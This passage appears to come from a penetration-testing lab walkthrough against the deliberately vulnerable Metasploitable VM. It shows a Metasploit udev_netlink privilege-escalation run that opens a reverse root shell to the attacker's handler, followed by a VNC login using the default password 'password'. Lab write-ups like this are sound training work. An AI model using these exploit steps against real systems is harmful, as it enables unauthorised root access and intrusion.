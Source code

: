 ``` plain
meterpreter > background
[*] Backgrounding session 1...
msf exploit(postgres_payload) > use exploit/linux/local/udev_netlink
msf exploit(udev_netlink) > show options

Module options (exploit/linux/local/udev_netlink):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   NetlinkPID                    no        Usually udevd pid-1.  Meterpreter sessions will autodetect
   SESSION                       yes       The session to run this module on.
   WritableDir  /tmp             yes       A directory where we can write files (must not be mounted noexec)


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf exploit(udev_netlink) > set SESSION 1
SESSION => 1
msf exploit(udev_netlink) > exploit

[*] Started reverse handler on 192.168.127.159:4444 
[*] Attempting to autodetect netlink pid...
[*] Meterpreter session, using get_processes to find netlink pid
[*] udev pid: 2770
[+] Found netlink pid: 2769
[*] Writing payload executable (274 bytes) to /tmp/rzIcSWveTb
[*] Writing exploit executable (1879 bytes) to /tmp/DQDnKUFLzR
[*] chmod'ing and running it...
[*] Command shell session 2 opened (192.168.127.159:4444 -> 192.168.127.154:33383) at 2014-06-06 23:03:13 +0300

whoami
root
```

So, the same exploit that I manually used earlier was very easy and quick in Metasploit. Onwards!

### Port 5900 vnc

The Nessus scan reported that the server is using the password 'password'. So I will use vncviewer to connect to it:

``` plain
vncviewer 192.168.127.154
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```